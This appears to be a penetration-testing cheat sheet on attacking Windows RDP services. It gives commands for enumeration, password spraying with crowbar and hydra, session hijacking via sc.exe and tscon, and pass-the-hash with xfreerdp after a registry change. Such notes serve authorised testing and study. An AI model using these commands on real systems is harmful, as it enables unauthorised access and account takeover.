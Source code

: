 #  Remote Desktop Protocol (RDP)
## Enumeration

```
nmap -Pn -p3389 $rhost
```
## Misconfigurations

Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. Although it is not common, we could find an RDP service without a password if there is a misconfiguration.
Using the [Crowbar tool](https://github.com/galkan/crowbar), we can perform a password spraying attack against the RDP service. 

```
crowbar -b rdp -s $rhost -U users.txt -c 'password123' # Example
```
### Hydra - RDP Password Spraying
```
hydra -L usernames.txt -p 'password123' $rhost rdp
```

### RDP Login
```
rdesktop -u $username -p $password $rhost
rdesktop -u admin -p password123 192.168.2.143 # Example
```

## RDP Session Hijacking

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the [Microsoft tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.

```
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). 
A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use [Microsoft sc.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. 
Once we run the following command, a service named sessionhijack will be created.

```
query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```

## RDP Pass-the-Hash (PtH)

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
xfreerdp /v:$rhost /u:$user /pth:$hash
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9 # Example

```



